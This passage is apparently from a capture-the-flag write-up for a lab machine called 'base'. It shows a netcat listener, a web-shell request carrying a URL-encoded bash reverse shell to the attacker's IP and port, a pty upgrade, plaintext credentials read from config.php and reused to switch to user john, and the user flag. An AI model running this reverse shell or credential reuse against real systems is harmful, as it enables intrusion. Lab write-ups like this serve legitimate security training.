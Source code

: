 netcat listen:

```bash
└─$ nc -lvp 4242
listening on [any] 4242 ...

```

request `cmd=/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.137/4242 0>&1'`:

```http
http://10.129.95.184/_uploaded/simple-backdoor.php?cmd=%2fbin%2fbash%20-c%20'bash%20-i%20%3e%26%20%2fdev%2ftcp%2f10.10.15.137%2f4242%200%3e%261'
```

result:

```bash
└─$ nc -lvp 4242
listening on [any] 4242 ...
ls
10.129.95.184: inverse host lookup failed: No address associated with name
connect to [10.10.15.137] from (UNKNOWN) [10.129.95.184] 60990
bash: cannot set terminal process group (1154): Inappropriate ioctl for device
bash: no job control in this shell
www-data@base:/var/www/html/_uploaded$ whoami
whoami
www-data
```

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## www-data => normal user

```bash
www-data@base:/var/www/html$ cat login/config.php
cat login/config.php
<?php
$username = "admin";
$password = "thisisagoodpassword";
```

check if this password is also john's password:

```bash
www-data@base:/var/www/html$ su john
su john
Password: thisisagoodpassword

john@base:/var/www/html$ 
```

## user flag

```bash
john@base:~$ cat user.txt
cat user.txt
f54846c258f3b4612f78a819573d158e
```
